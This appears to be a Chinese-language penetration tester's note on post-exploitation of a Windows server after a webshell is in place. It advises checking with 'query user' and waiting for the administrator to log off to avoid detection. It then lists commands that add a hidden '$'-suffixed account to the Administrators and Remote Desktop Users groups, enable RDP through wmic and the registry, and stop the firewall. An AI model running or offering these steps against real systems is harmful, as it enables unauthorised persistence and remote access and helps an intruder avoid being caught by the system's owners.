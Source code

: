 













#提权预处理



[TOC]






####执行命令查看在线用户





```

#执行命令,查看在线用户，如果有用户在线，就不要在做其他渗透了，防止被发现，等管理员下线之后再操作

query user

#发现管理员2015年11月27日登录之后没再登陆



```







 ![](./pic/queryuser.png)




#####常用的windows命令

```

ipconfig        #显示本地IP地址

whoami			#查看webshell权限

net user fuckadmin$ 123 /add    #添加用户fuckadmin$及密码为123的用户

net localgroup administrators fuckadmin$ /add  #添加fuckadmin$到管理员组

wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1    #一键开启远程桌面命令,需要administrator及以上

注册表开启3389
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f


reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

net stop sharedaccess   #关闭防火墙 

net stop sharedaccess   #开启防火墙







```



```

whoami的安装

1)下载文件whoami.exe 6.1.7600.16385文件到您的桌面上。

(2)将whoami.exe 6.1.7600.16385文件放到提示丢失的文件的程序目录下。

(3)如果第2步是行不通的。将文件whoami.exe 6.1.7600.16385到系统目录下

C:\Windows\System (Windows 95/98/Me)

C:\WINNT\System32 (Windows NT/2000)

C:\Windows\System32 (Windows XP, Vista)

C:\Windows\System32 (Windows 7/8/2008r2)

C:\Windows\SysWOW64 (Windows 7/8/2008r2)

```





####关于远程桌面端口的查看操作





#####第一种方法查看远程端口以及开远程桌面注册表命令



```

查看远程端口命令:



REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber



返回的为16进制



HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp

    PortNumber    REG_DWORD    0xd3d



#将0xd3d由16进制转为10进制为3389

```





```

开启远程桌面命令：



REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f



```







#####第二种方法查看远程桌面端口



```

#看看有没有TermService,有的话说明开启了远程桌面端口

tasklist /svc

#执行完之后PID:640知道了PID为640

```



  ![](./pic/tasklistsvc.png)



```

然后执行

netstat -ano

tcp   PID：640所对应的端口为3389

```


 ![](./pic/netstat-ano.png)




#####添加用户以及添加到管理员组以及远程桌面组（如果为管理员权限却登录不了远程桌面看这个）



```

#添加用户fuckadmin$及密码为123的用户

net user fuckadmin$ 123 /add

#添加fuckadmin$到管理员组

net localgroup administrators fuckadmin$ /add



#尝试一下远程桌面连接，如果连接不上，且远程桌面端口开放，那么把管理员添加到远程桌面组试一试

net localgroup "Remote Desktop Users" fuckadmin$ /add





```



